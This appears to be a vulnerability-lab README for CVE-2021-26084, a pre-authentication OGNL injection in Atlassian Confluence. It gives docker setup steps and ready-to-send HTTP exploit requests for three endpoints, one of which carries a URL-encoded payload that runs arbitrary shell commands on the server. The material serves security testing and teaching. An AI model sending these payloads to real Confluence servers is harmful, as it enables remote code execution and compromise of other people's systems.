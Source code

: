 # Atlassian Confluence Webwork Pre-Auth OGNL Injection Leads to RCE (CVE-2021-26084)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

An OGNL injection vulnerability exists that allows an unauthenticated attacker to execute arbitrary code on a Confluence Server or Data Center instance.

References

- https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html
- https://jira.atlassian.com/browse/CONFSERVER-67940
- https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
- https://github.com/h3v0x/CVE-2021-26084_Confluence

## Vulnerable Environment

Execute following command to start a Confluence Server 7.4.10:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.

![](3.png)

## Exploit

There are multiple API endpoints that are affected by this vulnerability.

### /pages/doenterpagevariables.action

This is a pre-auth exploit, executing `233*233`:

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

![](2.png)

Executing arbitrary commands:

```
queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```

![](1.png)

### /pages/createpage-entervariables.action

This is also a pre-auth exploit:

```
POST /pages/createpage-entervariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

### /pages/createpage.action

This exploit requires a user permission to create pages:

```
GET /pages/createpage.action?spaceKey=EX&src=quick-create&queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027 HTTP/1.1
Host: 192.168.1.162:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.162:8090/template/custom/content-editor.vm
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: JSESSIONID=7B35600F54A9E303CE8C277ED960E1E7; seraph.confluence=524289%3A2ac32a308478b9cb9f0e351a12470faa4f2a928a
Connection: close


```
